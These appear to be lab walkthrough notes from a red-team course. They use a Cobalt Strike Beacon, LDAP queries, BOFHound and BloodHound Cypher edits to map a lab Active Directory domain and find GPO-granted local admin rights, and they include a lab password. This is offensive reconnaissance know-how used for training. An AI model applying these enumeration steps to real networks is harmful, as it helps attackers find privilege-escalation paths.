 - Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n
```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\

download \\dublin.contoso.com\SysVol\dublin.contoso.com\Policies\{BC922AEC-8191-4B0D-8592-8C483703D7FD}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.

![[Pasted image 20250714100312.png]]

> S-1-5-21-3926355307-1661546229-813047887-1106 is a member of S-1-5-32-544

```powershell
ldapsearch (objectSid=S-1-5-21-2958544638-1589230383-838459903-1605)
```

-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-3105'}) MATCH (y:Group{objectid:'S-1-5-21-2958544638-1589230383-838459903-3103'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-2601'})
MATCH (y:Group{objectid:'S-1-5-21-2958544638-1589230383-838459903-1605'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.